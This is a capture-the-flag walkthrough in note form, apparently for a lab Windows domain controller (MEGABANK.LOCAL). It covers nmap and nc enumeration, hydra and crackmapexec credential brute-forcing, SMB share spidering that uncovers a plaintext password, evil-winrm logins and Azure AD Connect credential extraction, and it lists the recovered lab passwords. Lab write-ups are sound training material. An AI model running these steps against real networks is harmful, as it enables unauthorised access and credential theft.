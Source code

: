 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
		- dgalanos
		- guest
		- roleary
		- SABatchJobs
		- smorgan
		- svc-ata
		- svc-bexec
		- svc-netapp
	- put into uers.txt
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- anonymous login successful, no shares
	- nmap --script smb-vuln* -p135,139,445 $IP
- Brute force
	- crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
		- Username is the same as the Password
		- SABatchJobs:SABatchJobs success
- SABatchJobs
	- smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
		- READ: users$  SYSVOL  NETLOGON  IPC$  azure_uploads
	- Connect to smb: smbclient -U SABatchJobs //$IP/share
		- users$
			- azure.xml in mhope directory
				- Password: `4n0therD4y@n0th3r$
	- Spider share
		- smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
			- mhope
				- azure.xml
				- evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
					- success

### PE
#### Windows
- mhope
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
			- Azure Admins
	- /Program Files
		- ls *Azure*
			- A few Azure AD connectors and sync
				- Exploit article: https://blog.xpnsec.com/azuread-connect-for-redteam/
				- Get admin creds after changing to 127.0.0.1
				- administrator:d0m@in4dminyeah!
- administrator
	- Connect:  evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'
### Credentials
### Lessons Learned